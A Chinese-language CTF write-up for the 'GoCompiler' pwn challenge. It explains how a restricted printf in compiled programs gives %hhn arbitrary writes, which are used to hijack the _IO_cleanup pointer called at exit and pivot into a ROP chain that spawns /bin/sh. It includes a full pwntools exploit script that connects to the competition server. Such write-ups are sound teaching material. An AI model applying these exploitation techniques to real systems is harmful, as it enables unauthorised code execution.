


# GoCompiler

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |No    |
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|go    |1.20.3|

## 解题思路

用go写的go语言编译器，可以将go转换为汇编并用gcc编译，看调试信息写到了
**github.com/klang/ugo** ，但实际上无法访问，不过看项目有点类似于已经公开的“凹语言”，
可是实际测试对go的支持十分有限。

go的逆向太困难了，一些函数调用根本看不出来做了什么操作，通过看函数名和rr测试，
发现了`ugo`允许调用C语言的函数，但仅限于`write`和`printf`，并且`printf`的格式化参数有限制，
必须包含且仅包含一个`%`符号。

> [!NOTE]
> rr是Mozilla开发的一个调试工具，可以实现 **timeless debug** ，也就是说，
> 它通过提前录制程序行为，稍后就可以回放程序，实现“逆向调试”。不过你也注意到了，
> 你并不是在真正调试程序，你只是在回溯程序的行为。但是借助这个特性，我们可以面对go这种难调的家伙，
> 通过定位确定的错误点，一步一步逆向推导，就可以猜测出程序的行为，相较静态检查多了灵活性。
> 这次的很多发现，包括`printf`的行为，都是我通过rr看出来的。

由于有了`printf`原语，我们可以通过`%hhn`来一个字节一个字节改内存。并且由于结果程序是无PIE的，
我们可以直接修改bss区的内容。

> 不使用`%hn`等是因为由于只能用1个%，用`%hn`写数据需要堆砌大量的无效字符，
> 最终会导致程序过大，因此`%hhn`是权衡过后的更佳选择。

接下来我们就可以利用如下原语，将payload注入到`INSERT`处，
反复调用`printf('1' * n, addr)`的方式来任意写

```go
// malicious.ugo
package main

func main() int {
    var i int = 0
        INSERT
    return 0
}
```

任意写有了，写什么好呢？原本我的想法是打apple，但奈何apple实在是太长了，
并且程序中也没有`system`，于是我找了找其他的函数指针，结果发现了在`exit`中调用了一处指针，
原先这个地方是`_IO_cleanup`，但是这个地方是可写的，且没有受`PTR_MANGLE`加密，
可以直接劫持。看了一下调用时的寄存器状态，此时正`call rbx`，因此rbx刚好是这个指针的地址，
是我们可以控制的，然后就是找gadget了。

经过令人近乎绝望的查找，我最终锁定了一个gadget：`mov esp, ebx; mov rbx, qword ptr [rsp]; add rsp, 0x30; ret`，
由于没有PIE，因此可以做栈迁移到`ebx + 0x30`上！我只要将数据写到`ebx + 0x30`的地址上，
就可以实现rop，只要构造`syscall(SYS_execve, "/bin/sh", NULL, NULL)`就可以拿到shell。

> [!IMPORTANT]
> `ebx + 0x30`的地方并不是可以任意写的，在调`_IO_cleanup`之前，会先运行`__exit_funcs`中的hook，
> 调用`call_fini -> __preinit_array_start -> __do_global_dtor_aux -> __deregister_frame_info_bases`，
> 在最后一个函数中会判断`object+24`是不是`&__EH_FRAME_BEGIN__`，如果不是则会继续迭代，
> 导致发生SIGSEGV，而`object`刚好在`ebx + 0x30`不远处，还需要绕过这个地方。
>
> 

剩下的就是先把payload伪造好，交给容器里的gcc编译，这样由于payload长度固定，生成出来的gadget位置基本也不会变，
执行就可以获取shell了

> [!NOTE]
> 原先的方案是声明字符串的，由于llvm的特性，声明的字符串会在程序中保留一份，因此"/bin/sh"可以借此获取，
> 不过大概是由于程序中有太多字符串了，因此每次调整payload，即使长度没有变化，字符串的地址也会变化。
> 最后选择了把"/bin/sh"直接写到了bss上固定位置。

## EXPLOIT

```python
from pwn import *
import os
context.terminal = ['tmux','splitw','-h']
EXE = './hello'

def mkstr(val: int) -> str:
    return '1' * val

def w1byte(addr: int, val: int) -> str:
    return f'   i = {addr:#x}\n    printf("{mkstr(val)}%hhn", i)\n'

def wnbytes(n: int, addr: int, val: int) -> str:
    base = ''
    for i in range(n):
        base += w1byte(addr + i, (val >> (i * 8)) & 0xff)
    return base

def create_ugo():
    with open('hello.ugo', 'r') as goin:
        base = goin.read()
    ugo = ''
    ugo += wnbytes(4, 0x4c8288, 0x484a8e) # mov esp, ebx
    ugo += wnbytes(7, 0x4c8298, u64(b'/bin/sh\0')) # /bin/sh
    ugo += wnbytes(4, 0x4c82b8, 0x4020df) # pop rdi
    ugo += wnbytes(8, 0x4c82c0, 0x4c8298) # "/bin/sh"
    ugo += wnbytes(4, 0x4c82c8, 0x485acb) # pop rdx => 0; pop rbx <- check;
    ugo += wnbytes(4, 0x4c82e0, 0x44fd47) # pop rax
    ugo += wnbytes(1, 0x4c82e8, 59)       # 59
    ugo += wnbytes(4, 0x4c82f0, 0x401e94) # syscall
    with open('malicious.ugo', 'w') as goout:
        goout.write(base.replace('INSERT', ugo))
    
def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
    else:
        sh = remote('1.95.58.58', 2102)

    creating = True
    if os.path.exists('malicious.ugo'):
        ch = input('malicious.ugo exists. Regenerate? [y/n]')
        if ch == 'n' or ch == '':
            creating = False
    if creating:
        info('Generate malicious.ugo.')
        create_ugo()

    if not lo:
        with open('malicious.ugo', 'r') as mal:
            src = mal.read()
        sh.sendline(src.encode() + b'end')

    sh.clean()
    sh.interactive()
    sh.close()
```



## 尾声

比赛结束后，看别人的wp，都没有用到`printf`，都是通过`write`溢出打印指针，然后走栈溢出rop
（给了栈溢出示例，但是我没有编译运行）

除此之外，本次exp用到的改的`&_IO_cleanup`，即`__elf_set___libc_atexit_element__IO_cleanup__`，
是可写的，却从未看到有人这么利用过，拿做过的题看了一下，从libc 2.23到2.35，虽然有这个符号，
但它位于只读段，没有利用价值...甚至在2.38之后这个符号直接被删掉了，
`exit`固定会调用`_IO_cleanup`。只能说运气好，静态编译把这个符号变成可写的了。

## 参考

[rr: Record and Replay Framework](https://github.com/rr-debugger/rr)
